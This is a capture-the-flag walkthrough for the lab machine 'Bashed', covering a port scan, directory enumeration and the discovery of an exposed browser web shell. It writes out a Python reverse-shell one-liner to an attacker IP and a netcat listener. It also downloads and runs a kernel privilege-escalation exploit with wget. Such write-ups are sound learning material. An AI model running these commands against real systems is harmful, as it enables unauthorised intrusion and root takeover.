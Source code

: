 # Bashed

## Recon

Now that we have the target IP address of 10.10.10.68, let's perform some recon
and enumeration. 

To being, run an `nmap` scan:

```
$ nmap -sV -sC -p- -T4 10.10.10.68 -oN nmap_scan.txt
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 11:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.14s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 484.14 seconds
```

The only service running on this target is an HTTP Apache web server. Let's
enumerate it further with `gobuster` to check for hidden directories.

```
$ gobuster dir -u http://10.10.10.68:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

/images
/uploads
/php   
/css  
/dev 
/js 
/fonts
```

The only folder that contained anything useful was `/dev`. Open it and click on
the file `phpbash.php`

![phpbash](screenshots/phpbash.png)

It is a full `bash` shell within the browser! While having a terminal in the
browser is nice, I prefer a proper reverse shell.

## Spawning a Reverse Shell

Start a netcat listener on our host machine:

```
$ sudo nc -nlvp 80
```

Connect to it on the target machine:

```
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.29",80));os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Now we have a reverse shell! You can optionally [upgrade it to a more stable
shell](https://jasonturley.xyz/how-to-stabilize-a-reverse-shell/) like below:

![revshell](screenshots/revshell.png)


The user flag is located in `/home/arrexel/user.txt`.

## Privilege Escalation

Now to find a way to escalate our privileges to the root user. I ran `sudo -l`
to list what programs (if any) we can execute as root:

```
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

I could not locate a `scriptmanager` binary, so I moved on to a different
technique.

Let's check out the kernel release and version information:

```
$ uname -rv 
4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017
```

When Googling for "4.4.0-62-generic privilege escalation" I found this
[exploit-db C exploit](https://www.exploit-db.com/exploits/41458). The target
does not have `gcc` or `clang` installed, so I compiled the binary locally and
uploaded it to the target with `wget`. Here's how:

On host:
```
# save the linked exploit at pwn.c
$ gcc pwn.c -o pwn
$ python3 -m http.server 8080
# we now have a make-shift webserver! 
```

On target:
```
$ wget "http://10.10.14.29:8080/pwn" -O pwn
$ chmod 777 pwn
$ ./pwn
```

We now have a root shell! Print out `root/root.txt` and win!
